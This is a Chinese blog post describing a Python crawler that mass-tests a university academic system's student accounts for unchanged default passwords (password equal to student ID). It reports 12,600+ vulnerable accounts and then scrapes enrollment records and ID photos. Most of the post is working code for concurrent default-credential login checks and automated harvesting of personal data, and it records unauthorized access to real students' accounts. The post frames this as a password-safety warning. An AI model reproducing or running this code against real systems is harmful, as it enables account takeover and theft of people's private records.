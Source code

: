 ```yaml
---
layout:     post
title:      "Python 第一个爬虫-教务系统信息收集"
subtitle:   ""
date:       2018-02-24 09:25:00
categories: 
    - 爬虫
    - Python
tags:
    - 爬虫
    - Python
---
```

## 初衷
**本文旨在提醒同学们及时修改密码，增强保护个人隐私的意识，因此代码中一些关键数据以及校名等信息不会公开！复制粘贴文章中的代码不会爬到任何东西。只是作为学习 Python 爬虫的一点总结而已！**
<!-- more -->
作者所在学校的教务系统安全防范措施可谓非常不严密，学生登录甚至不需要图形验证码。每年学生入学之后，学校下发的账号，初始密码不是无规律的，而是和账号完全一致！如果学生不及时修改密码，那么其他人可以轻松登录他的账号。登录后可以看到学生的学籍信息，包括高考报名时照片，家长联系方式等，联系地址甚至详细到几单元几楼几号门，**个人信息泄露情况非常严重！**

## 结果
先说结果。经过两天连写带调试，终于完成了对全校本科生 17400 多个在网账号的测试，其中有 12600 多个账号使用的还是初始密码。此处隐去校名，统计结果如下：

| 序号 | 学院 | 年级 | 在网账号 | 可爬账号 | 年级占比 |
| :-: | :-: | :-: | :-: | :-: | :-: |
|1   |本一   |2014   |3157   |1998   |63.29%   |
|2   |本一   |2015   |3328   |2234   |67.13%   |
|3   |本一   |2016   |3641   |3066   |84.21%   |
|4   |本一   |2017   |3497   |3326   |95.11%   |
|5   |本三   |2014   |1759   |303   |17.23%   |
|6   |本三    |2015   |1643   |620   |37.74%   |
|7   |本三    |2016   |1605   |1434   |89.35%   |
|8   |本三    |2017   |1552   |639   |41.17%   |

**介于初衷，只爬了 10 个账号的信息，以示严重性！**

![爬到的学籍信息](http://upload-images.jianshu.io/upload_images/7134080-ec8c310143b69f21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 过程
本人之前做过近 2 年的 Java 相关开发，对 HTTP 协议中常用的知识了解一些，再加上 Python 出了名的简洁易用，因此入门还是比较轻松的。去年有一段时间研究过一阵子 Python，使用的是 Scrapy 框架，所以这一次我也首先想到了 Scrapy。

Scrapy 这种框架适用的情形是：已经获取了需要爬取的页面的一系列 URL ，或者 URL 是成一定规律变化的，不需要登录或者登录一次拿到 Cookie 就可以拿着这个 Cookie 一直用了。但是教务系统完全相反，它需要每次都进行登录，也许 Scrapy 有办法，但也不会太简单，索性自己写。

这套教务系统虽然安全性不怎么样，但也已是一套成熟的产品了，功能和稳定性上还是很不错的。

![系统的登录界面](http://upload-images.jianshu.io/upload_images/7134080-286f834fd46caf89.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先使用 Firefox 浏览器的开发者工具查看 HTTP 通信的一些信息：

![登录请求 ( POST )](http://upload-images.jianshu.io/upload_images/7134080-3ab0ec0d031193cc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

登录表单通过 POST 请求进行提交，参数是账号和密码，发送的也是明文

![表单参数](http://upload-images.jianshu.io/upload_images/7134080-986180eedc73180d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

服务器返回的响应中 Set-Cookie 就相当于给用户下发的令牌，用户下一次请求的时候带上这块令牌，服务器就能认出来这个用户是否刚登录过。这个令牌是有时间限制的，每次请求都会刷新一次时间，如果两次请求之间间隔时间超过设定值，那么服务器就不认识用户了，这次会话就结束了，需要重新登录。

![登录的响应体](http://upload-images.jianshu.io/upload_images/7134080-d14eaf5437d7dfc4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

刚开始使用的是 requests ，用 for 循环实现，由于 requests 是同步的，所以效率很低，还会经常卡死。后来改成了协程，用的 gevent + urllib3，效率提升了上百倍。解析 HTML 用的 lxml 的 etree，图片的保存用 PIL 的 Image。

先引入依赖
```python
import sys
import logging
import gevent
import urllib3
import pathlib
from PIL import Image
from io import BytesIO
from lxml import etree
```
创建 HTTP 连接池
```python
http = urllib3.HTTPConnectionPool(
    host=settings.SERVER_HOST,
    port=settings.SERVER_PORT,
    strict=False,
    maxsize=100,
    block=False,
    retries=100,
    timeout=10
)
```

请求头的一些固定信息可以预先设定好，伪装浏览器
```python
header = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Cache-Control': 'max-age=0',
    'Connection': 'Keep-alive',
    'Host': settings.SERVER_HOST,
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
}
```
登录并验证是否是初始密码
```python
# 账号校验器
class InfoValidate(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 有效账号
        self.account_valid = []
        # 可爬账号
        self.account_available = []

    def validate(self, all_account):
        # 将所有校验过程加入队列
        jobs = [gevent.spawn(self.validate_account, self.http, a) for a in all_account]
        gevent.joinall(jobs, timeout=0)

    def validate_account(self, http, account):
        # 登录请求参数
        param = {"zjh": account, "mm": account}
        header = headers.header
        response = http.request('POST', settings.URL_LOGIN, fields=param, headers=header)
        self.logger.info('发送请求>>{}'.format(param))
        self.logger.info(response.status)
        # 响应体解码
        res_text = response.data.decode('GB2312', 'ignore')

        if res_text.find('密码不正确') > -1:
            # 密码有误
            self.account_valid.append(account)
        elif not res_text.find('证件号不存在') > -1:
            # 账号可爬
            self.account_available.append(account)
            self.account_valid.append(account)
            self.logger.info("账号可用>>>{}".format(account))
```
至此已经获取了所有初始密码未修改的账号了，下面研究一下，要爬取的学籍信息页的规律

![学籍信息页](http://upload-images.jianshu.io/upload_images/7134080-974fdb14f78e7210.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![table 的结构](http://upload-images.jianshu.io/upload_images/7134080-ed103827cea8be42.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

一系列的信息都包裹在 ```<td width = "275"></td> ```之间，对应的 xpath 表达式即为 ```//td[starts-with(@width,"275")]/text()```

基于之前对账号的测试，爬取学籍信息

```python
# 信息收集器
class InfoCollect(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 功能模块
        self.mod_get_roll_info = settings.MOD_ROLL_INFO
        self.mod_get_roll_img = settings.MOD_ROLL_IMG

    def get_info_queue(self, accounts):
        # 将所有信息收集过程加入队列
        jobs = [gevent.spawn(self.get_info, a) for a in accounts]
        gevent.joinall(jobs, timeout=0)

    def get_info(self, stuid):
        # 登录
        param = {'zjh': stuid, 'mm': stuid}
        response = self.http.request('POST', settings.URL_LOGIN, fields=param)
        # 保存 Cookie
        cookie = response.headers['Set-Cookie'].replace('; path=/', '')
        header = headers.header
        header['cookie'] = cookie
        # 学籍信息
        if self.mod_get_roll_info:
            # 带 Cookie 访问学籍信息页
            response_xjxx = self.http.request('GET', settings.URL_XJXX, headers=header)
            text = response_xjxx.data.decode('GB2312', 'ignore')
            # 解析页面内容
            selector = etree.HTML(text)
            text_arr = selector.xpath('//td[starts-with(@width,"275")]/text()')
            # 学籍信息
            result = []
            for info in text_arr:
                result.append(info.strip())
            self.save_info(result)
        # 学籍照片
        if self.mod_get_roll_img:
            response_xjzp = self.http.request('GET', settings.URL_XJZP, headers=header)
            image = Image.open(BytesIO(response_xjzp.data))
            setpath = settings.PATH_IMG_SAVE
            path = pathlib.Path(setpath)
            if not path.exists():
                path.mkdir()
            setpath = setpath + '/' + stuid + '.jpg'
            image.save(setpath)
            self.logger.info('保存照片>>>{}'.format(setpath))

        # 登出
        self.http.request('POST', settings.URL_LOGOUT, headers=header)
```

至此，已经实现了所有信息的获取以及照片的保存。

没改密码的同学们应该看到了，获取个人信息其实很简单，关键在于增强自己保护个人信息的意识。

相关开源项目：URP_Spider  [https://github.com/JamesZBL/URP_Spider](https://github.com/JamesZBL/URP_Spider)
